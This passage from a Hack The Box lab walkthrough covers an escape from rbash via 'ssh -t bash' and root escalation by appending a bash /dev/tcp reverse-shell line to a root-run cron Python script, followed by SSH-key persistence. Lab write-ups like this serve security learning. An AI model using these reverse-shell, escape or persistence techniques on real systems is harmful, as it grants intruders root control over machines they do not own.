 Now on my local listener, I have a shell as **mindy**:

![](https://i.imgur.com/RWdDQNA.png)

At first, I thought I don't need this shell since I already have valid creds for SSH.

However, it turned out I have a **rbash** restriction:


![](https://i.imgur.com/hS4cZyq.png)


Using `-t bash`, I can easily escape the restricted environment:

`ssh mindy@10.10.10.51 -t bash`

![](https://i.imgur.com/a0vmVXd.png)


I believe intended way of solving this box was to use the exploit from earlier to escape rbash environment, but I can also escape it using simple `-t bash` flag. 

## Privesc: mindy to root

Checking on `/opt`, I see **tmp.py** file which I usually don't see:

![](https://i.imgur.com/D7Ues4M.png)

Script seemed to be deleting all the files in **/tmp** directory:

![](https://i.imgur.com/L6gnGG4.png)


To check if there are any automated tasks related to this script, I uploaded **pspy32** using wget and Python http server.

I ran pspy after giving it execute permission:

![](https://i.imgur.com/OEjiFQb.png)


I was able to see that the script is being ran by root here: 

![](https://i.imgur.com/n5X34Bn.png)

I added extra line of code that will spawn a reverse shell for me:

`os.system('bash -c "bash -i >& /dev/tcp/10.10.14.17/1337 0>&1"')`

![](https://i.imgur.com/JCZfyj2.png)

Now waiting for a bit, I have reverse shell connection on my local listener as root:

![](https://i.imgur.com/2a69466.png)


To make access to root connection more easier, I created SSH key on root directory following [my note on Linux Persistence](https://jadu101.github.io/Persistence%F0%9F%A5%B7%F0%9F%8F%BB/Linux-Persistence)
